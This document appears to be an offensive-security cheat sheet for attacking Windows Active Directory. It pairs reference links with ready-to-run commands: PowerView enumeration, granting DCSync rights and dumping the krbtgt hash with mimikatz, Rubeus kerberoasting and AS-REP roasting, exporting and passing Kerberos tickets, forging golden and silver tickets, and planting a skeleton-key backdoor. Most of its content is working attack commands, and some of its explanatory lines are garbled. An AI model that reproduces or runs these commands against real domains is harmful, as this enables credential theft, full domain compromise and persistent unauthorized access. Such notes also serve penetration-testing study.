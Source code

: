 # Resources

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview  

https://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/

https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/

### [PowerView.ps1]

https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

```
get-aduser <username>
Get-NetDomain
```

### [Dumping credentials from the domain controller with DCSync]

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync


1. Import the module
```
import-module .\PowerView.ps1
```

2. Add DCSync rights to user
```
Add-ObjectACL PrincipalIdentity user -Rights DCSync
```

3. Import Active Directory
```
Import-Module ActiveDirectory
```

4. Retrieve the permissions for user
```
(Get-Acl "ad:\dc=DOMAIN,dc=COM").Access | ? {$_.IdentityReference -match 'user' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

5. Use mimikatz to dump credentials
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

```
lsadump::dcsync /user:krbtgt
```

Kerberoast
```
Rubeus.exe kerberoast
Rubeus.exe asreproast

dumps tickets containing the hashes hashes for all accounts:

sekurlsa::tickets /export

Impersonate their tickets

kerberos::ptt <ticket>

This will the hash and security identifier needed to create a golden ticket.

lsadump::lsa /inject /name:username

Generating the golden/silver ticket:

Kerberos::golden /user:<username> /domain:controller.local /sid:<SID> /krbtgt:<NTLM> /id:<ID>

Create a backdoor

misc::skeleton
```
